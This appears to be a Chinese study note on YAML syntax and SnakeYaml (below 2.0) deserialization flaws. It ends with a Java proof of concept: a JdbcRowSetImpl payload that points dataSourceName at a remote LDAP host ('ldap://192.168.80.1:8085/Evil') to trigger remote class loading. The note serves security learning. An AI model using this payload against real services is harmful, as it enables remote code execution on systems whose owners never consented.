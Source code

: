 ```
    - 2022-07-28    #日期必须使用ISO 8601格式，即yyyy-MM-dd
datetime: 
    -  2022-07-28T15:02:31+08:00    #时间使用ISO 8601格式，时间和日期之间使用T连接，最后使用+代表时区
```

`-`的作用：

![image-20250417161408050](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417161408050.png)

![image-20250417161422499](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417161422499.png)

![image-20250417161428690](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417161428690.png)

# SnakeYaml反序列化

1.x全版本可利用，snakeYaml<2.0

```xml
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
</dependency>
```

SnakeYaml提供了Yaml.dump()和Yaml.load()两个函数对yaml格式的数据进行序列化和反序列化。

- Yaml.load()：入参是一个字符串或者一个文件，经过反序列化之后返回一个Java对象；
- Yaml.dump()：将一个对象转化为yaml文件形式；

其中序列化出来的对象格式为`!!Snake.类名`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/20220802103026-11a270ac-120b-1.png)

在反序列化时可以用`!!`指定反序列化的类名，跟fastjson一样

且是调用setter赋值，fastjson能用的JdbcRowSetImpl肯定能用



## JdbcRowSetImpl

注意SnakeYaml不能互转false和0，所以payload填false bool

POC：

```java
    public static void main(String[] args) throws Exception {
        String str = "!!com.sun.rowset.JdbcRowSetImpl\n" +
                "{\n"+
                "dataSourceName: ldap://192.168.80.1:8085/Evil,\n" +
                "autoCommit: false\n"+
                "}";
        Yaml yaml = new Yaml();
        yaml.load(str);
    }
```
